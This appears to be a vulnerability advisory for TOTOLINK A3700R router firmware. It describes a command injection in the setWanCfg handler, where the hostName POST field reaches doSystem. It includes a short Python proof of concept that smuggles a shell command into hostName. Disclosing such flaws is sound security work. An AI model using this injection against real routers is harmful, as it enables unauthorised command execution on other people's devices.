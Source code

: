 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：[https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

## Affected version

A3700R V9.1.2u.6165_20211012

## Vulnerability details

In the A3700R V9.1.2u.6165_20211012 firmware has a command injection vulnerability in the `setWanCfg` function. The `v48` variable receives the `hostName` parameter from a POST request. However, since the user can control the input of `hostName`, the statement `doSystem` can cause a buffer command injection vulnerability.

![image-20240719022247585](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719022247585.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWanCfg",
"hostName":"';ls -al ../ ;'",
"proto":"80"
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719022336777](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719022336777.png)
